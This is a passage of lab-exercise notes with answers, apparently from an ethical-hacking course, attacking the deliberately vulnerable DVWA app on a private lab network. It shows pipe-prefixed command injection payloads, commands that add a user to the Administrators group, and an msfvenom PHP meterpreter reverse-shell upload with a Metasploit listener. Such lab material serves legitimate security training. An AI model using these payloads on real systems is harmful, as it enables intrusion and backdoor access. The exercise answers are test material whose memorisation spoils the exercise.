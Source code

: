 ```
| hostname

| whoami

| tasklist

| Taskkill /PID <Process ID> /F
```



Perform command-line execution on a vulnerability found in the DVWA web application (http://10.10.1.22:8080/dvwa/login.php). Enter the number of directories found in the C drive of the Windows Server 2022 system.

8

```
| dir C:\
```

```
| net user

| net user Test /Add

| net user Test

| net localgroup Administrator Test /Add
```



### Exploit File Upload Vulnerability

Exploit a file upload vulnerability at low security levels of DVWA (http://10.10.1.22:8080/dvwa/login.php) using Metasploit. Enter the name of the Windows Server 2022 machine.

SERVER2022

#### Create PHP Payload

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<IP address> LPORT=4444 -f raw > upload.php
```

{% hint style="info" %}
Upload the php file in DVWA File Upload section&#x20;
{% endhint %}

#### Create a Listener

```
msfconsole

use exploit/multi/handler

set payload php/meterpreter/reverse_tcp

set LHOST 10.10.1.13

set LPORT 4444

run
```
